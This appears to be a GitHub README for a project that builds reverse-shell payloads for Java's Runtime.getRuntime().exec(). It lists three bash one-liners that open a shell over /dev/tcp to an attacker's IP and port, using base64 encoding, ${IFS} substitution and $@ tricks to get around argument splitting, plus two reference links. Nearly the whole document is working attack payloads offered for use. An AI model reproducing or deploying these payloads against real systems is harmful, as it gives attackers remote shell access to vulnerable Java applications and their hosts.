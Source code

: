 # ReverseShell-Java
The project work on generating payloads to reverse shell in different contexts of java.


### Payloads in Runtime.getRuntime().exec(String command):
#### Method1:
bash -c {echo,**BASE64(bash -i >& /dev/tcp/IP/PORT 0>&1)**}|{base64,-d}|{bash,-i}
#### Method2:
bash -c bash${IFS}-i${IFS}>&/dev/tcp/**IP**/**PORT**<&1
#### Method3:
bash -c $@|bash 0 echo bash -i >& /dev/tcp/**IP**/**PORT** 0>&1

### Reference:
http://www.jackson-t.ca/runtime-exec-payloads.html

https://blog.spoock.com/2018/11/25/getshell-bypass-exec/

